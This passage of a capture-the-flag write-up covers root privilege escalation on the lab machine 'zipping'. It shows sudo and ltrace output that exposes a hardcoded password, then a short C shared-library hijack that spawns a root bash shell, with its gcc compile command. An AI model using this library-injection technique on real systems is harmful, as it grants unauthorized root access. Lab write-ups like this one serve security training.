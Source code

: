 As you can see, we are logged in as `rektsu` user. lets check what we can do
with this user.

after running `sudo -l` we can see that we can run `/usr/bin/stock` as root
without password. lets check what this binary does.

lets explore the binary using `ltrace` and see what it does.

```bash
sudo -l

Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock

```

I end up downloading the binary to my local machine and run `ltrace` and
`strace` on it. I got the password from using ltrace, then i run it again strace
now, to see all the syscall

```bash
ltrace ./stock
printf("Enter the password: ")                                                                                               = 20
fgets(Enter the password: sdf "sdf\n", 30, 0x7f929983e8e0)= 0x7ffe01021660
strchr("sdf\n"'\n')= "\n"
strcmp("sdf" "St0ckM4nager")
"St0ckM4nager\n", 1024)         = 13
openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
write(1, "\n================== Menu ======="..., 44
```

Alright nice, we got /home/rektsu/.config/libcounter.so been used by the
program. and we have write access to that location, lets try to create a shared
object file and see if we can get a root shell.

```cpp
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject() {
    system("/bin/bash");
}
```

Run the following command to compile the shared object file. then upload it to
the server.

```bash
gcc -shared -fPIC -o libcounter.so libcounter.c
```
### root flag
Running the stock binary again will give us a root shell.
